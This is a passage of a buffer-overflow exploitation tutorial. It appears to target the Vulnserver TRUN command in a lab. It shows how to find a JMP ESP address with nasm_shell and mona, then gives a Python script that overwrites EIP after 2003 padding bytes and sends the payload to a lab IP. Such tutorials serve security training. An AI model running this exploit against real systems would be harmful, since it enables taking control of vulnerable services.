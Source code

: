 6-Finding the Right Module

~~~bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
~~~

Search NASM for “JMP ESP” (minus the quotes). (\xff\xe4)

~~~cmd
!mona modules
~~~

~~~cmd
!mona find -s "\xff\xe4" -m module.ext
~~~

~~~python
#!/usr/bin/python
import sys, socket

#EIP->JMP ESP = "625011AF" -- Must be inserted backwards for "little indian"

eipown = "A" * 2003 + "\xaf\x11\x50\x62"

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.253.129",9999))
	s.send(('TRUN /.:/' + eipown))
	s.close()

except:
	print "Error Connecting to Server..."
	sys.exit()

~~~

